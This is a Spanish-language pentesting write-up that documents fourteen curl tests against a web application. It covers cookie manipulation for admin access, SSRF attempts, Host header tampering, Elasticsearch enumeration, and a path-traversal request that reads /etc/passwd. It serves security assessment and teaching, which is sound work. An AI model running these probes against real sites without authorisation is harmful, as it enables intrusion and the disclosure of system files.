# Casos prácticos con `curl`

Este documento recoge una serie de pruebas de seguridad realizadas con `curl` como herramienta principal de análisis. Cada caso representa un escenario técnico realista, útil para entender el comportamiento de aplicaciones web ante diferentes tipos de solicitudes HTTP manipuladas.

---

## 1. Acceso administrativo manipulando cookie `user_info`

**Archivo:** `curl-admin-access-user-info-cookie-manipulation.png`  
**Descripción:**  
Accedemos directamente al panel de administración utilizando una cookie `user_info` obtenida en un login anterior, manipulada manualmente para escalar privilegios.

**Comando:**
```bash
curl -i http://cochesviejunos.es/admin.php \
--cookie "PHPSESSID=xxx; user_info=YTozOntzOjg6..."
````

**Impacto:** Escalada de privilegios por deserialización insegura o control de acceso ineficaz.



---

## 2. Enumeración de índices en Elasticsearch

**Archivo:** `curl-elasticsearch-cat-indices.png`
**Descripción:**
Consulta a la API REST de Elasticsearch sin autenticación.

**Comando:**

```bash
curl http://localhost:9200/_cat/indices?v
```

**Impacto:** Exposición no controlada de información interna y logs.



---

## 3. Petición a URL con respuesta 403 Forbidden

**Archivo:** `curl-get-weather-forbidden-403.png`
**Descripción:**
Acceso denegado por el servidor, posiblemente por validación de host/IP.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-weather.php?url=..."
```

**Impacto:** Comportamiento esperado ante intento de SSRF.



---

## 4. Petición denegada por host no permitido

**Archivo:** `curl-get-weather-host-no-permitido.png`
**Descripción:**
El servidor devuelve "Acceso denegado a host no permitido".

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-weather.php?url=..."
```

**Impacto:** Protección activa frente a SSRF por filtrado de destinos.



---

## 5. Manipulación de cabecera Host

**Archivo:** `curl-host-header-manipulation.png`
**Descripción:**
Enviamos una cabecera `Host` falsa para comprobar el comportamiento del servidor.

**Comando:**

```bash
curl -s -H "Host: cochesviejunos.es" http://127.0.0.1
```

**Impacto:** Detección de posibles host header injection.



---

## 6. LFI mitigado: archivo no encontrado

**Archivo:** `curl-lfi-mitigated-file-not-found.png`
**Descripción:**
Intento de leer `/etc/passwd` mediante path traversal. El servidor devuelve error controlado.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-car-description.php?file=../../../../../../etc/passwd"
```

**Impacto:** LFI correctamente mitigado.



---

## 7. Petición POST de login

**Archivo:** `curl-login-post-request.png`
**Descripción:**
Simulación de login vía `POST` con credenciales explícitas.

**Comando:**

```bash
curl -i -X POST http://cochesviejunos.es/login.php \
-d "username=jdv&password=123456"
```

**Impacto:** Posible acceso al sistema y obtención de cookies.



---

## 8. `Set-Cookie` con `user_info`

**Archivo:** `curl-login-set-cookie-user-info.png`
**Descripción:**
Captura del `Set-Cookie` tras el login, contiene token codificado que se puede manipular.

**Impacto:** Token vulnerable a manipulación si no está protegido.



---

## 9. LFI exitoso con acceso a `/etc/passwd`

**Archivo:** `curl-path-traversal-lfi-etc-passwd.png`
**Descripción:**
Path traversal exitoso que revela contenido sensible del sistema.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-car-description.php?file=../../../../../../etc/passwd"
```

**Impacto:** Lectura arbitraria de archivos del sistema = crítica.



---

## 10. Cabeceras de seguridad correctamente implementadas

**Archivo:** `curl-security-headers-good-practices.png`
**Descripción:**
Verificamos que el servidor implementa cabeceras como `Content-Security-Policy`, `X-Frame-Options`, etc.

**Comando:**

```bash
curl -I http://cochesviejunos.es
```

**Impacto:** Buenas prácticas de hardening presentes.



---

## 11. Redirección 302 por control de sesión

**Archivo:** `curl-session-control-302-redirect.png`
**Descripción:**
El servidor redirige a `login.php` si no hay sesión activa válida.

**Impacto:** Control de acceso basado en cookies activo.



---

## 12. Cookies de sesión sin flags de seguridad

**Archivo:** `curl-session-cookie-no-security-flags.png`
**Descripción:**
Se detecta cookie sin `HttpOnly`, `Secure` ni `SameSite`.

**Impacto:** Vulnerable a robo vía XSS o MITM.



---

## 13. Cookies de sesión con flags de seguridad

**Archivo:** `curl-session-cookie-security-flags.png`
**Descripción:**
El servidor devuelve cookies correctamente configuradas.

**Impacto:** Buenas prácticas de seguridad.



---

## 14. SSRF con parámetro codificado en base64

**Archivo:** `curl-get-weather-base64-url-encoded.png`
**Descripción:**
Prueba de SSRF usando URLs codificadas en base64 como técnica de evasión.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-weather.php?url=aHR0cDovL3B..."
```

**Impacto:** Riesgo potencial si el backend decodifica y permite conexión.



---

## Conclusión

Como se ha mostrado, `curl` es una herramienta potente para evaluar la seguridad de aplicaciones web. Permite simular distintos vectores de ataque (path traversal, SSRF, manipulación de cookies o cabeceras HTTP) de forma directa y sencilla. Este conjunto de pruebas sirve como base para incorporar `curl` en metodologías de pentesting profesional.

```


